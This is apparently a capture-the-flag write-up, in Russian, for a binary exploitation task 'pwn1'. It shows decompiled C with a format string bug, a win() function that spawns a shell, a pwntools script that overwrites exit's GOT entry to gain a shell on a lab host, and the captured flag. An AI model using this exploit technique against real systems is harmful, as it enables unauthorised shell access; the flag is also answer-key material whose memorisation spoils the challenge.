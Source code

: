 # pwn1

При дизассемблировании в функции main видим уязвимость Format String Vulnerability
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[1032]; // [rsp+0h] [rbp-410h] BYREF
  unsigned __int64 v4; // [rsp+408h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(s, 1024, _bss_start);
  printf(s);
  exit(0);
}
```

Также видим функцию win, которая вызывает шелл
```c
int win()
{
  return system("/bin/sh");
}
```

Пример программы для вызова функции win и получения шелла
```python
from pwn import *
context.clear(arch = 'amd64')

context.binary = ELF("./main")

s = remote("192.168.12.13", 1923)
s.sendline(fmtstr_payload(6, {context.binary.got['exit']: context.binary.sym['win']}))
s.interactive()
```

Прочитаем файл с флагом
```
$ cat flag
nto{easy_formt_string}
```
